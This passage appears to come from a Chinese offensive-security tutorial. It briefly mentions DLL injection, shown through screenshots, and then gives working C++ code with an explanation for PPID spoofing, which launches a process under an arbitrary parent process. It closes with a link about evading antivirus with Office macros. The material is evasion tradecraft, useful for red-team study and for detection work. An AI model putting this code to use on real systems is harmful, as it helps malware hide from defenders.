 运行Demo.exe，然后先遍历模块

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810104606.png)

dll注入

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810104608.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810104609.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810104611.png)

# 0x06 PPID欺骗

PPID欺骗允许使用任意进程启动程序

同理先判断父进程是否存在

    
    
    DWORD GetParanetProcessID(char* ParanetProcessName) {    BOOL Check = CheckPorcess(ParanetProcessName);    if (Check) {        HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);        PROCESSENTRY32 pe32 = { 0 };        pe32.dwSize = sizeof(PROCESSENTRY32);        BOOL bRet = Process32First(hSnap, &pe32);        while (bRet)        {            Process32Next(hSnap, &pe32);            if (strcmp(pe32.szExeFile, ParanetProcessName) == 0) {                ppid = pe32.th32ProcessID;                break;            }        }        CloseHandle(hSnap);    }    return ppid;}
    
    
    void PpidSpoofing(char* ProcessAddr,DWORD ParaentPid) {    STARTUPINFOEXA si = { 0 };    si.StartupInfo.cb = sizeof(STARTUPINFOEXA);    PROCESS_INFORMATION pi = { 0 };    SIZE_T SizeBuff;    HANDLE parentProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, false, ParaentPid);    ZeroMemory(&si, sizeof(STARTUPINFOEXA));    InitializeProcThreadAttributeList(NULL, 1, 0, &SizeBuff);    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, SizeBuff);    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &SizeBuff);    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);    BOOL bRet = CreateProcessA(ProcessAddr, NULL, NULL, NULL, TRUE, CREATE_NEW_CONSOLE | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);    if (!bRet) {        printf("ProcessAddr error!");    }    CloseHandle(parentProcessHandle);}

首先我们要获取父进程的进程句柄然后为进程和线程创建初始化指定的属性列表使用InitializeProcThreadAttributeList。

    
    
    BOOL InitializeProcThreadAttributeList(  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,  DWORD                        dwAttributeCount,  DWORD                        dwFlags,  PSIZE_T                      lpSize);

最后一个参数指定输入时lpAttributeList缓冲区的大小。si.lpAttributeList在堆中分配一块内存，分配的大小为前面的SizeBuff。然后再使用InitializeProcThreadAttributeList初始化进程和线程的属性列表最后使用UpdateProcThreadAttribute函数来更新进程和线程的指定属性，最后创建我们的进程。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810104612.png)![]()

**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810104613.png)**

  

 **推荐阅读：**

  

[Office如何快速进行宏免杀](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247492416&idx=1&sn=c444b28f7aa67e9ee15d42bc1aeef10d&chksm=ec1cb67fdb6b3f69d33753fd68cad86f401c07f5fddb3157c81468cab144978a5fb3840da037&scene=21#wechat_redirect)  

